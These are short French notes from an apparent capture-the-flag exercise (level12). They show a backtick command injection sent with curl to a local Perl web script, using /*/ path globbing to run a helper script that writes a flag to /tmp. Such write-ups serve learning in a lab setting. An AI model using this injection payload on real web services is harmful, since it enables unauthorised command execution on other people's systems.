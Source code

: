 ```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

Ne marche pas (lance check flag sans les droits).

Comment perdre 1h15: mettre des "" a la place de '' et ne pas comprendre pourquoi level12.pl lance sans les droits.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

```
echo '`getflag` > /tmp/myflag' 
```
chmod 777 /tmp/GETFLAG

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/mdp

chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```

